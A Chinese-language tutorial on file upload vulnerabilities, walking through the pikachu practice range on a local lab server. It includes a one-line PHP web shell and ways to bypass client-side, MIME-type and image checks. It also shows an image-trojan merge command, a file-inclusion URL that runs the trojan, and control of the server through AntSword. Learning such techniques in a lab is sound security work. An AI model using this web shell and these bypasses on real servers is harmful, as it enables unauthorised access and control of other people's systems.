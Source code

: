 ```yaml
---
title: 网络安全学习-文件上传
tags:
  - 网络安全
readmore: true
date: 2023-02-20 11:30:26
---
```


### 简介

文件上传本身是指一个功能，比如用户可以上传头像、上传资料等。如果能够上传文件，则可能存在文件上传的漏洞。

任意文件上传漏洞的产生需要满足三个条件：

1. 文件能被上传；
2. 文件能被服务器解析 (上传的文件能够被当作后端脚本处理)；
3. 能访问的到上传的文件，如果访问不到，则无法对文件进行控制，也就没有漏洞的说法。

<!-- more -->

### 环境搭建

环境使用 pikachu 的靶场，下载地址：https://github.com/zhuifengshaonianhanlu/pikachu

安装方式可自行百度，推荐使用 phpstudy 创建网站，方便快捷。

### client check

访问搭建好的 pikachu 靶场中的 Unsafe Fileupload -> client check；

#### 测试漏洞

首先我们上传一张普通的图片，可以看到提示 “文件上传成功”，并显示了文件保存的路径，这里将返回的路径与 pikachu 靶场的路径进行拼接，可以成功的访问到图片。

```bash
http://192.168.31.195/pikachu/vul/unsafeupload/uploads/avatar.jpg
```

#### 绕过漏洞

创建一个 "shell.php" 的文件，作为我们一会将要上传的一句话木马文件。

```php
<?=eval($_POST['cmd']);?>
```

此时在靶场中直接选中该文件，会弹出提示框说文件不符合要求；通过 burp suite 也能发现网站没有发送请求，所以得出结论是在前端(客户端)进行的验证。

F12 或者在网站空白处右键检查；发现表单处调用了 JavaScript 函数，这里直接给它删除掉再次上传即可上传成功。

![](https://pic.mewhz.com/fileUpload/1.png)

#### 利用漏洞

成功上传一句话木马后，使用蚁剑进行连接。

蚁剑源码下载地址：https://github.com/AntSwordProject/antSword

蚁剑启动器下载地址：https://github.com/AntSwordProject/AntSword-Loader

将蚁剑源码解压后，打开启动器目录选择刚刚的源码文件，稍等片刻会成功启动。

也可以直接使用启动器下载；若遇到解压失败的情况，给予源码的文件夹所有权限即可。 

启动后，在蚁剑空白处右键，选择添加数据；

![](https://pic.mewhz.com/rce/1.png)

在基础配置中的 url 地址，输入靶场中木马所在的 url；

连接密码输入 cmd，即刚刚木马中 $_POST 的参数；

![](https://pic.mewhz.com/fileUpload/2.png)

单击测试连接，显示连接成功后，单击添加；

右键刚刚添加的记录，选择文件管理就可以对木马所在的服务器进行文件操作；

![](https://pic.mewhz.com/fileUpload/3.png)

![](https://pic.mewhz.com/fileUpload/4.png)

---

### MIME type

访问搭建好的 pikachu 靶场中的 Unsafe Fileupload -> MIME type；

#### 测试漏洞

同样上传一张图片，发现没有任何问题并且返回了上传的路径。

#### 绕过漏洞

上传一句话木马文件，发现要求了上传的文件格式，此时打开 burp suite 抓取请求，

将抓到的请求右键 ”Send to Repeater“，发送到请求模块，修改请求头中的内容类型；

![](https://pic.mewhz.com/fileUpload/5.png)

把 **Content-Type: application/octet-stream** 修改成 **Content-Type: image/jpg**

通过此方法欺骗服务端，让服务端认为用户上传的是一张图片。

**MIME type** ：(现在称为“媒体类型 (media type)”，但有时也是“内容类型 (content type)”)是指示文件类型的字符串，与文件一起发送(例如，一个声音文件可能被标记为 `audio/ogg` ，一个图像文件可能是 `image/png` )。它与传统 Windows 上的文件扩展名有相同目的。

#### 利用漏洞

上传成功后，使用上述蚁剑的连接的方法访问后台。

---

### getimagesize

访问搭建好的 pikachu 靶场中的 Unsafe Fileupload -> getimagesize；

#### 测试漏洞

同样上传一张图片，发现没有任何问题并且返回了上传的路径。

#### 绕过漏洞

上传一句话木马，发现同样要求了文件后缀名格式；

##### 修改请求头

1. 同样使用 burp suite 抓包，这次除了修改请求头中的内容类型，还要修改文件的后缀名以及文件的内容；

2. 修改内容类型：把 **Content-Type: application/octet-stream** 修改成 **Content-Type: image/jpg**；

3. 修改文件后缀名，同样可以直接在上传之前进行修改：

   ![](https://pic.mewhz.com/fileUpload/6.png)

4. 在文件内容的首部加上 "GIF89a"，代表该文件是 GIF89a 格式的文件：

   ![](https://pic.mewhz.com/fileUpload/7.png)

5. 上传后成功显示文件的上传路径；

##### 制作图片木马

1. 选择一张可以正常显示的图片，并在该位置打开命令行；

2. 输入如下命令

   ```bash
   copy avatar.jpg/b+shell.php/a 1.jpg
   # copy 将一个或多个文件复制到其他位置
   # 第一个参数指定要复制的文件
   # /b 表示二进制文件
   # + 代表合并文件
   # /a 表示 ASCII 文件
   # 第二个参数指定新文件的文件名和路径
   ```

3. 重新上传文件，并选择新生成的文件，此时返回的连接仅仅是一个图片链接，需要配合着文件包含漏洞共同使用；

4. 打开 pikachu 靶场中的 File Inclusion -> File Inclusion(remote)，选择一张图片并观察URL，文件包含使用 filename 作为参数名，此时 php 页面会将相应到的数据作为 php 脚本执行，修改后面的参数名，构成新的 URL 为：

   ```bash
   http://192.168.31.195/pikachu/vul/fileinclude/fi_remote.php?filename=http://192.168.31.195/pikachu/vul/unsafeupload/uploads/2023/02/20/19834863f3222ca9c95014848861.jpg&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
   ```

#### 利用漏洞

最后依然是使用蚁剑进行连接，只不过 URL 是文件包含中构成的新 URL。



仅供学习交流使用~
